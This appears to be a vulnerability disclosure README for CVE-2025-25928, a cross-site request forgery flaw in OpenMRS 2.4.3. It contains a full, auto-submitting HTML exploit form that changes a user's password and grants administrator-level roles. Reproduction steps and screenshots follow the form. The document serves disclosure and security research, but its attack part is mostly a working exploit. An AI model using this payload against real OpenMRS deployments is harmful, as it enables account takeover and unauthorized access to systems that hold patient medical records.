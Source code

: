 # CVE-2025-25928 - PoC

---

## CSRF PrivEsc


OpenMRS v2.4.3 Build 0ff0ed allows attackers to to execute arbitrary operations via a crafted CSRF PoC. In this case, an attacker could exploit this CSRF to elevate a low-privileged account to an administrative role by leveraging the CSRF vulnerability at the /openmrs/admin/users/user.form endpoint


* Vulnerable Endpoint: /openmrs/admin/users/user.form endpoint
* CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost:8080/openmrs/admin/users/user.form" method="POST">
      <input type="hidden" name="userId" value="11" />
      <input type="hidden" name="person&#95;id" value="12" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;givenName" value="lowPriv" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;middleName" value="" />
      <input type="hidden" name="person&#46;names&#91;0&#93;&#46;familyName" value="" />
      <input type="hidden" name="person&#46;gender" value="M" />
      <input type="hidden" name="username" value="lowPriv" />
      <input type="hidden" name="userFormPassword" value="Test123&#33;" />
      <input type="hidden" name="confirm" value="Test123&#33;" />
      <input type="hidden" name="roleStrings" value="System&#32;Developer" />
      <input type="hidden" name="secretQuestion" value="" />
      <input type="hidden" name="secretAnswer" value="" />
      <input type="hidden" name="property" value="loginAttempts" />
      <input type="hidden" name="value" value="0" />
      <input type="hidden" name="property" value="lockoutTimestamp" />
      <input type="hidden" name="value" value="" />
      <input type="hidden" name="action" value="Save&#32;User" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

### Steps to reproduce:

1.) Observe the user lowPriv has the role anonymous:

 ![image](https://github.com/user-attachments/assets/4fa4922e-ee24-44dd-9808-44566bc346c9)

lowPriv user:

![image](https://github.com/user-attachments/assets/62aa5116-879f-4cf5-9a11-377bbc0eff71)


2.) Execute the following CSRF PoC within the Admin users browser, and observe the lowPriv user is now an Admin.

![image](https://github.com/user-attachments/assets/ef2d4cdf-2469-43ab-aa54-11e09dbf942f)

lowPriv user accessing Admin:

 ![image](https://github.com/user-attachments/assets/73369363-6370-4914-a4cf-b9f9c5d0a5ce)


NOTE: sign in / out of the application as the LowPriv user for the changes to take affect 





